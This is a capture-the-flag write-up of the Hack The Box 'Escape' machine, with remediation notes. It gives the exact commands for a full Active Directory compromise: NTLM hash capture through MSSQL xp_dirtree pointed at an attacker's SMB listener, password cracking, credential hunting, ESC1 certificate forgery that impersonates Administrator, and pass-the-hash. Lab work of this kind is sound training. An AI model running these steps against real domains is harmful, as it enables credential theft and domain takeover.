# How I Rooted HTB Escape: MSSQL Hash Capture, Credential Hunting, and ESC1 All the Way to Domain Admin

> A full Active Directory attack chain - from anonymous SMB access to Domain Admin through NTLM hash theft, plaintext credential discovery in SQL Server logs, and an ESC1 certificate template misconfiguration.

---

## Machine Overview


Escape is a Medium-rated Windows machine on Hack The Box covering a realistic Active Directory attack chain starting from zero credentials.

The machine chains five distinct techniques to reach Domain Admin: anonymous SMB enumeration to retrieve a PDF containing MSSQL credentials, NTLM hash theft via MSSQL xp_dirtree and Responder to obtain a service account password, credential hunting in SQL Server error logs to pivot to a new user, and finally ESC1 - a certificate template misconfiguration that allows impersonating the Administrator account through a forged certificate request. Every step requires understanding what you have before reaching for the next tool.

## Summary of Findings

| # | Vulnerability | Severity | CVSS Score |
|---|---------------|----------|------------|
| 1 | Anonymous SMB access exposing sensitive PDF with credentials | Medium | 5.3 |
| 2 | MSSQL xp_dirtree enabled - NTLM hash capture via UNC path | High | 7.5 |
| 3 | Weak service account password crackable with rockyou | High | 7.5 |
| 4 | Plaintext credentials stored in SQL Server error log | High | 7.8 |
| 5 | ESC1 - ADCS template allows enrollee to supply subject | Critical | 9.0 |

**Rationale for scores:**

- **5.3 Medium** - Public SMB share accessible without authentication exposes a PDF containing database credentials. No auth required, direct credential disclosure. AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N.
- **7.5 High** - MSSQL xp_dirtree procedure enabled allows any authenticated database user to trigger an outbound SMB connection, leaking the service account NTLMv2 hash to a rogue listener. AV:N/AC:H/PR:L/UI:N/S:U/C:H/I:H/A:N.
- **7.5 High** - sql_svc service account password present in rockyou wordlist. Service accounts should use long random passwords and never reuse passwords. AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N.
- **7.8 High** - SQL Server error log retains failed login attempts including cases where users accidentally type their password as the username. Logs stored with insufficient access controls allow any authenticated user to read them. AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H.
- **9.0 Critical** - ESC1 misconfiguration on UserAuthentication template allows any domain user to supply an arbitrary Subject Alternative Name, enabling impersonation of any domain account including Administrator without cracking credentials. AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H.

**Techniques covered:**
- SMB anonymous enumeration and sensitive file retrieval
- MSSQL authentication and xp_dirtree UNC path abuse for NTLM hash capture
- NTLMv2 hash cracking with John the Ripper
- Multi-protocol credential validation with nxcprobe
- Evil-WinRM shell access
- BloodHound AD attack path analysis
- Windows credential hunting via findstr across filesystem
- SQL Server error log analysis for credential leakage
- ADCS template enumeration with Certipy
- ESC1 exploitation - certificate request with forged UPN
- Clock skew fix for Kerberos authentication
- Pass-the-Hash with impacket-wmiexec

If you are preparing for OSCP or OSEP, this machine is worth your time - it covers MSSQL abuse, credential hunting methodology, and ADCS ESC1 exploitation at a depth that applies directly to real engagements.

---

## Reconnaissance

### Port Scan

```bash
nmap -sC -sV -Pn 10.129.35.202
```



| Port | Service | Notes |
|------|---------|-------|
| 53 | DNS | Simple DNS Plus |
| 88 | Kerberos | Windows Kerberos |
| 135 | MSRPC | Windows RPC |
| 139/445 | SMB | NetBIOS / SMB |
| 389/636/3268/3269 | LDAP | Active Directory |
| 1433 | MSSQL | Microsoft SQL Server 2019 RTM |
| 5985 | WinRM | HTTP API |

Domain: `sequel.htb` - this is a Domain Controller (`dc.sequel.htb`). MSSQL on port 1433 is unusual for a DC and an immediate point of interest. No credentials provided - need to find initial access.

I added both `sequel.htb` and `dc.sequel.htb` to `/etc/hosts`:

```bash
echo "10.129.35.202 sequel.htb dc.sequel.htb" >> /etc/hosts
```

---

## Enumeration

### Anonymous SMB Access

First thing to check in an AD environment with no credentials is whether SMB allows anonymous or guest access.

```bash
smbclient -L //10.129.35.202/ -N
```



A `Public` share is accessible without authentication. That is always worth investigating.

```bash
smbclient //10.129.35.202/public -N
```

```
smb: \> dir
  SQL Server Procedures.pdf
smb: \> get "SQL Server Procedures.pdf"
```



A PDF named "SQL Server Procedures" sitting on a public share is a very high value target. Opening it revealed credentials on the last page:

```
PublicUser : GuestUserCantWrite1
```



---

## Initial Access - MSSQL Hash Theft

### Connecting to MSSQL

With credentials in hand, MSSQL on port 1433 is the obvious next step.

```bash
impacket-mssqlclient 'sequel.htb/PublicUser':'GuestUserCantWrite1'@10.129.35.202
```



PublicUser is a guest account with limited privileges. Direct command execution via `xp_cmdshell` requires sysadmin rights which this account does not have. However, `xp_dirtree` is accessible to lower-privileged accounts and can be used to force the SQL Server service account to authenticate to a rogue SMB listener, leaking its NTLMv2 hash.

### Capturing the NTLMv2 Hash

Start Responder on the tun0 interface:

```bash
sudo responder -I tun0
```

Trigger an outbound SMB connection from the SQL Server:

```bash
SQL> xp_dirtree \\10.10.15.151\fake\share
```



Responder captured an NTLMv2 hash for `sql_svc` - the SQL Server service account. Two options from here: relay or crack. Always try cracking first since it is simpler.

### Cracking the Hash

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```



Cracked immediately:

```
sql_svc : REGGIE1234ronnie
```

### Credential Validation

I ran my custom [nxcprobe](https://github.com/danildudchenko/nxcprobe/blob/main/nxcprobe.sh) script to validate the credentials across every protocol at once:

```bash
bash nxcprobe.sh
```



sql_svc has WinRM access - direct shell.

```bash
evil-winrm -i 10.129.35.202 -u sql_svc -p REGGIE1234ronnie
```



---

## BloodHound - Mapping the AD Environment

```bash
bloodhound-python -u 'sql_svc' -p 'REGGIE1234ronnie' -d 'sequel.htb' -ns 10.129.35.202 -c All
```

Checking outbound object control for sql_svc in BloodHound showed no interesting paths. The service account had no special permissions over any other AD objects.

With no direct BloodHound path, the next move is manual enumeration and credential hunting. When automated scans and BloodHound do not show a path it usually means the answer is sitting in a file somewhere that scans are not reaching.

---

## Credential Hunting - Finding Ryan.Cooper

First enumerate all local and domain users to build a pattern list for the search:

```bash
Get-LocalUser | Select Name
net user /domain
```



Users found: Administrator, Tom.Henn, Brandon.Brown, Ryan.Cooper, sql_svc, James.Roberts, Nicole.Thompson.

Since the recursive PowerShell scan does not work reliably in Evil-WinRM sessions, I used cmd-based findstr targeting high-value directories. Full methodology documented here: [Windows Credential Hunting](https://danildudchenko.github.io/windows/cred-hunting).

```bash
cmd /c "findstr /s /i /c:"Ryan.Cooper" /c:"sql_svc" /c:"Tom.Henn" /c:"Brandon.Brown" /c:"James.Roberts" /c:"Nicole.Thompson" /c:"password" /c:"pass" C:\SQLServer\* C:\Users\* C:\inetpub\* C:\Backup\* C:\Temp\* C:\Dev\* 2>nul"
```



`C:\SQLServer\Logs` returned a hit. Enumerate the directory:

```bash
cmd /c "dir C:\SQLServer\Logs /s /b"
```

Found `ERRORLOG.BAK`. SQL Server error logs are high value targets - they log every failed authentication attempt including cases where users accidentally type their password as the username.

```bash
type C:\SQLServer\Logs\ERRORLOG.BAK
```



The log contained two sequential failed login lines:

```
Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match.
Logon failed for user 'NuclearMosquito3'. Reason: Password did not match.
```

Ryan.Cooper failed to log in, then typed his password as the username on the next attempt. SQL Server logged both. New credentials:

```
Ryan.Cooper : NuclearMosquito3
```

---

## Lateral Movement - Ryan.Cooper

```bash
evil-winrm -i 10.129.35.202 -u Ryan.Cooper -p NuclearMosquito3
```



Checked BloodHound again for Ryan.Cooper - no special outbound object control. Given the machine has MSSQL and the domain setup suggests Active Directory Certificate Services, certificate attacks are the logical next step.

---

## Privilege Escalation - ADCS ESC1

### Certificate Template Enumeration

```bash
certipy-ad find -u Ryan.Cooper -p NuclearMosquito3 -dc-ip 10.129.35.202 -vulnerable -stdout
```



ESC1 found on the `UserAuthentication` template:

- `Enrollee Supplies Subject: True` - the requestor can specify any UPN in the certificate
- `Client Authentication: True` - the certificate can be used for Kerberos authentication
- Domain Users have enrollment rights

This means any domain user can request a certificate that impersonates any other account including Administrator.

### Requesting the Certificate

```bash
certipy-ad req -u 'Ryan.Cooper' -p 'NuclearMosquito3' -dc-ip '10.129.35.202' -target 'dc.sequel.htb' -ca 'sequel-DC-CA' -template 'UserAuthentication' -upn 'administrator@sequel.htb'
```



Certificate saved as `administrator.pfx`.

### Fixing Clock Skew

Authenticating with the certificate requires Kerberos. Kerberos requires the client clock to be within 5 minutes of the DC:

```bash
sudo timedatectl set-ntp false
sudo ntpdate 10.129.35.202
```



### Getting the Administrator Hash

```bash
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.129.35.202'
```



```
Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

### Administrator Shell

```bash
impacket-wmiexec -hashes :a52f78e4c751e5f5e17e1e9f3e58f4ee Administrator@10.129.35.202
```



```
C:\>whoami
sequel\administrator
```

---

## Vulnerability Analysis

---

### Anonymous SMB Share Exposing Credentials

**Severity:** Medium
**CVSS Score:** 5.3

**Description:** The Public SMB share is accessible without authentication and contained a PDF document with database credentials in plaintext.

**Root Cause:** The share was likely created for internal onboarding purposes and left misconfigured. Public SMB shares should never contain credential material regardless of who is expected to access them.

**Impact:** Any unauthenticated user on the network can retrieve database credentials, enabling authenticated access to MSSQL and the subsequent hash theft chain.

**Remediation:**
- Remove the Public share or restrict access to authenticated domain users only
- Audit all SMB shares with `nxc smb --shares` for anonymous read access
- Never store credentials in documents on shared drives - use a secrets manager

---

### MSSQL xp_dirtree NTLM Hash Capture

**Severity:** High
**CVSS Score:** 7.5

**Description:** The xp_dirtree stored procedure is enabled and accessible to low-privileged MSSQL users, allowing an attacker to force the SQL Server service account to authenticate outbound to an attacker-controlled SMB listener, leaking its NTLMv2 hash.

**Root Cause:** xp_dirtree was not disabled and the SQL Server service account was configured to run with a domain account rather than a managed service account or Network Service, making the leaked hash crackable and usable for lateral movement.

**Impact:** An attacker with any valid MSSQL credentials can capture the service account NTLMv2 hash and crack or relay it to gain authenticated access as that account across the domain.

**Remediation:**
- Disable xp_dirtree if not operationally required: `REVOKE EXECUTE ON xp_dirtree TO PUBLIC`
- Run the SQL Server service under a Group Managed Service Account (gMSA) with a long auto-rotated password
- Block outbound SMB from the SQL Server host at the firewall level

---

### Weak Service Account Password

**Severity:** High
**CVSS Score:** 7.5

**Description:** The sql_svc service account password was present in the rockyou wordlist and cracked within seconds using John the Ripper.

**Root Cause:** The password did not meet complexity requirements appropriate for a service account. Service account passwords should be at minimum 25+ characters randomly generated and stored in a vault, never manually set.

**Impact:** Once the NTLMv2 hash is captured, the plaintext password is recovered immediately, enabling direct authentication across any protocol the account has access to.

**Remediation:**
- Rotate sql_svc to a randomly generated 32+ character password
- Use Group Managed Service Accounts (gMSA) which rotate automatically
- Enforce a fine-grained password policy with higher complexity requirements for service accounts

---

### Plaintext Credentials in SQL Server Error Log

**Severity:** High
**CVSS Score:** 7.8

**Description:** SQL Server logs all failed login attempts including the username that was provided. When Ryan.Cooper accidentally typed his password as the username, SQL Server logged it in plain text in ERRORLOG.BAK, which was readable by any authenticated user.

**Root Cause:** This is a known SQL Server behavior - failed login usernames are always logged. The issue is that the log file was accessible to low-privileged domain users and was not cleared after the incident.

**Impact:** Any user with WinRM or local access to the server can read SQL Server logs and potentially recover credentials that were accidentally typed as usernames.

**Remediation:**
- Restrict read access to SQL Server log directories to administrators only
- Implement a log rotation and archival policy that removes old logs
- Educate users about the risk of typing passwords into username fields

---

### ESC1 - ADCS Template Allows Enrollee to Supply Subject

**Severity:** Critical
**CVSS Score:** 9.0

**Description:** The `UserAuthentication` certificate template has `Enrollee Supplies Subject` enabled and allows Client Authentication. Any domain user can request a certificate with an arbitrary UPN including `administrator@sequel.htb`, then use that certificate for Kerberos authentication to obtain the Administrator NTLM hash.

**Root Cause:** The certificate template was misconfigured with `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` enabled while also permitting Client Authentication usage and broad enrollment rights for Domain Users. This combination is the definition of ESC1.

**Impact:** Full domain compromise. Any domain user can impersonate any domain account including all Domain Admins without cracking any passwords. The attack requires only a single certipy command once credentials are obtained.

**Remediation:**
- Disable `Enrollee Supplies Subject` on the UserAuthentication template unless there is a specific documented operational need
- If the flag must remain, restrict enrollment rights to only the accounts that require it
- Run `certipy-ad find -vulnerable` regularly to audit all certificate templates
- Reference for all ESC cases: [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

---

## What I Learned

**The certipy -target flag needs the DC FQDN, not the domain.** My first attempt used `-target 'sequel.htb'` and got a timeout. The correct value is `-target 'dc.sequel.htb'`. This is easy to miss because every other tool in the chain accepts the domain name fine - certipy req specifically needs to reach the RPC endpoint on the DC by hostname.

**The PowerShell recursive scan does not work in Evil-WinRM.** I wasted time trying to get `Get-ChildItem -Recurse` to run across the full filesystem in an Evil-WinRM session. It either times out or returns nothing. The right approach in constrained sessions is cmd-based `findstr /s` targeting specific high-value directories rather than the whole drive.

**BloodHound showing no path is not a dead end - it is a redirect.** When neither sql_svc nor Ryan.Cooper had interesting outbound object control, the answer was in the filesystem, not in AD permissions. The lesson is that credential hunting should be a standard step after every lateral movement, not a last resort after everything else fails.

**Clock skew will always bite you with Kerberos.** Any time you are doing certificate-based authentication or Kerberoasting, sync the clock first. It takes five seconds and saves a confusing error at the worst moment.
